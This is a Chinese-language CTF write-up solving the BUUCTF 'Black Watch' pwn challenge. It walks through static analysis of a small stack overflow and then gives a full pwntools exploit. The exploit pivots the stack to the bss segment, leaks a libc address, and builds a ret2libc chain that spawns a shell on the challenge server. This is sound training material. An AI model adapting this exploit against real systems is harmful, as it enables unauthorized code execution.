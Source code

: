 ```yaml
---
author: 
  name: Zephyr
title: Black Watch 入群题 PWN
date: 2022-3-27 13:20:03
permalink: /pages/2e1547494524d19c
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# Black Watch 入群题 PWN

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/Black_Watch_入群题_PWN/spwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vul_function();
  puts("GoodBye!");
  return 0;
}
```

vul_function函数如下

```c
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

## 思路分析

1. 目前信息：
   - `vul_function`函数可溢出`8`个字节
   - `s`在`bss`段
   - 无`system`、`/bin/sh`与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 只能溢出少量字节，选择使用栈迁移的手法，将栈迁移到`s`所在的`bss`段上,接着泄漏`libc`和函数地址，再构造`rop`链获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/Black_Watch_入群题_PWN/spwn'
io = remote('node4.buuoj.cn', 28817)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x1c
bss_s_addr = 0x0804A300
leave_ret = 0x08048511
write_plt = elf.plt['write']
libc_start_main_got = elf.got['__libc_start_main']
main_addr = elf.symbols['main']
payload = flat([bss_s_addr+0x200, write_plt,main_addr, 1, libc_start_main_got, 4])
io.sendafter('What is your name?', payload)
payload = flat(['a'*(padding-4), bss_s_addr, leave_ret])
io.sendafter('What do you want to say?', payload)
leak_libc_start_main = u32(io.recv(4))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat([bss_s_addr+0x200, system, 0xdeadbeef, bin_sh])
io.sendafter('What is your name?', payload)
payload = flat(['a'*(padding-4), bss_s_addr, leave_ret])
io.sendafter('What do you want to say?', payload)
io.interactive()
```
